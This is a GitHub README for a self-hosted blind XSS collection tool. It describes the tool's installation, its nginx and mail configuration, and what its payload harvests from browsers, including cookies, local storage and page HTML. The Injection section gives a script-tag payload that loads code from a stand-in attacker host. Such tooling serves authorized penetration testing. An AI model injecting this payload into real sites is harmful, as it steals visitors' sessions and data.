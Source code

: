 <h1 align="center">XSS Huntress</h1>

<h4 align="center">My alternative to XSS Hunter for blind XSS.</h4>

<p align="center">
    <img src="https://img.shields.io/badge/php-%3E=7-blue" alt="php badge">
    <img src="https://img.shields.io/badge/license-MIT-green" alt="MIT license badge">
</p>

---

## Features

- web interface
- sends an email notification whenever a payload is fired
- data collected by client that fired payload: 
    - Time
    - URL
    - Referrer
    - IP
    - User Agent
    - Cookies
    - Local Storage
    - HTML of page that fired payload.
- reports stored in `sqlite` database


## Installation

1. Clone the repository:

```bash
git clone https://github.com/sfttw/xsshuntress.git
```

2. Navigate to the project directory:

```bash
cd xsshuntress
```

3. Install PHPMailer:

```bash
composer require phpmailer/phpmailer
```

4. Update the paths to the PHPMailer classes in `collect.php`:

```php
require 'path/to/PHPMailer/src/Exception.php';
require 'path/to/PHPMailer/src/PHPMailer.php';
require 'path/to/PHPMailer/src/SMTP.php';
```

5. Update the SMTP server settings and email addresses in `collect.php`:

```php
$mail->Host = 'smtp.example.com'; // Specify main and backup SMTP servers
$mail->Username = 'user@example.com'; // SMTP username
$mail->Password = 'secret'; // SMTP password
$mail->setFrom('from@example.com', 'Mailer');
$mail->addAddress('joe@example.net', 'Joe User'); // Add a recipient
```

6. Update nginx IP restriction to admin interface

```
location ^~ /admin {
allow 127.0.0.1; #EDIT IN YOUR IP ADDRESS 
deny all;
```
## Injection

As soon as the script is available online, you can use your favorite XSS payload:
```
<script src=http://x.example.com></script>
```

---

<img src="https://raw.githubusercontent.com/sfttw/xsshuntress/main/screenshot.png" />

---

## Configure domain

Using nginx, you can easily configure a vhost like this:

```
server {
        listen 80;
        listen [::]:80;

        server_name example.com;

        root /var/www/example.com;
        index collect.js;

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

        location ^~ /admin {
        allow 1.1.1.1; #EDIT IN YOUR IP ADDRESS 
        index display.php;
        deny all;

        # This will inherit the allow/deny from the outer location
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
                }
        }

    listen [::]:443 ssl; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem; # managed by Certbot

}
```

## Notes

1. The `collect.php` file collects the data from the client and stores it in the SQLite database. It also sends an email notification whenever a new entry is added to the database.

2. The `collect.js` file collects the data from the client and sends it to the server.

3. The `display.php` file displays the data stored in the SQLite database.


## To Do

- Improve web interface.
  
## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

[MIT](https://choosealicense.com/licenses/mit/)

Feel free to [open an issue](/../../issues/) if you have any problem with the script.  

